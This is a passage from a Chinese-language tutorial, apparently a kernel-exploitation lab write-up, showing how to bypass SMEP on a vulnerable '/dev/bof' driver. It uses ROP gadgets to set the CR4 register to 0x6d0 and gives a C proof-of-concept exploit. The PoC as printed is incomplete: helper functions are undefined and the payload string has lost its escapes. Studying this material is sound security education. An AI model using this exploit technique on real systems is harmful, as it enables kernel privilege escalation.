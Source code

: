 [![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-18-072543.jpg)

那么，如果在内核中存在`gadget`能让我们修改`CR4`寄存器的值我们就可以手动来关闭`SMEP`保护了。

首先我们需要从`bzImage`中提取静态编译未经过压缩的`kernel`文件，以协助我们找到合适的`gadget`。

这里使用[extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux)来提取，使用命令为:`./extract-vmlinux bzImage &gt; vmlinux`

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-18-073450.png)

接下来由于`vmlinux`过大，因此建议把分析出的`gadget`重定向到文件然后在文件中寻找`gadget`而不是直接以标准输出打印，命令为`ROPgadget --binary ./vmlinux &gt; gadgets`。

发现程序中有四个`mov cr4,eax`的`gadget`，同时也有`pop eax`的`gadget`，于是我们可以利用这两个`gadget`控制`cr4`寄存器的值为`0x6d0`进而关闭`SMEP`保护了。

于是我们最终选用的两个`gadget`分别为：

```
0xc10174fc : pop eax ; ret
0xc1045053 : mov cr4, eax ; pop ebp ; ret
```

于是此时的PoC为：

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
int main(void){
    char Get_shell[5];
    init_tf_work();
    *((void**)(Get_shell)) = &amp;payload;
    char Payload[0x100] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAxFCx74x01xC1xD0x06x00x00x53x50x04xC1x00x00x00x00xEFxBExADxDE";
    for(int i = 0,j = 56;i &lt; 4;i++,j++){
        Payload[j] = Get_shell[i];
    }
    int fd = open("/dev/bof",2);
    write(fd,Payload,0x100);
    return 0;
}

//gcc -m32 -static -o Exploit Exploit.c
```

可以发现，此时，`CR4`寄存器的值已置为`0x6D0`
